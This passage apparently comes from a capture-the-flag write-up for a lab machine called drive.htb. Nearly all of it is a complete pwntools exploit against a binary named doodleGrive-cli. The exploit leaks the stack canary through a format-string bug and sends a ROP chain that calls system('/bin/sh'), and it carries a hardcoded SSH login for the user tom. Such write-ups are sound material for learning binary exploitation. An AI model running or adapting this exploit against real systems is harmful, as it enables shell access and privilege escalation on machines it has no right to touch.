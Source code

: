 The last one looks perfect. And 0x401913 (one byte after) is just `ret`.

#### Exploit

I’ll generate the following script:

```

from pwn import *

elf = ELF("./doodleGrive-cli")

# addresses
pop_rdi = p64(0x401912) # ropper -f ./doodleGrive-cli --search "pop rdi"
ret = p64(0x401913)     # just return from previous
bin_sh = p64(0x497cd5)  # strings -a -t x doodleGrive-cli | grep bin/sh

if args.SSH:
    ssh = ssh(host="drive.htb", user="tom", password="johnmayer7")
    p = ssh.process("/home/tom/doodleGrive-cli")
    prompt = ""
else:
    p = elf.process()
    prompt = "$ "

#gdb.attach(p, """break *0x40229c\nc\n""")

# format string vuln to leak canary
p.readuntil(b"Enter Username:\n")
p.sendline(b"%15$lx")
p.readuntil(b"Enter password for ")
leak = p.readuntil(b":\n").strip(b"\n:")
canary = int(leak, 16)
info(f"Leak canary: 0x{canary}")

# build payload to ROP system("/bin/sh")
payload = b"A" * 56             # offset to canary
payload += p64(canary)          # leaked canary
payload += b"A" * 8             # junk for stack pointer
payload += ret                  # ret for stack alignment
payload += pop_rdi              # go to pop rdi gadget
payload += bin_sh               # address of "/bin/sh" to pop into RDI
payload += p64(elf.sym.system)  # return to system
payload += p64(elf.sym.exit)    # return to exit

p.sendline(payload)
# clear message
p.readuntil(b"Invalid username or password.")
# reset path cleared by binary
p.sendline(b"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin")
p.interactive(prompt=prompt)

```
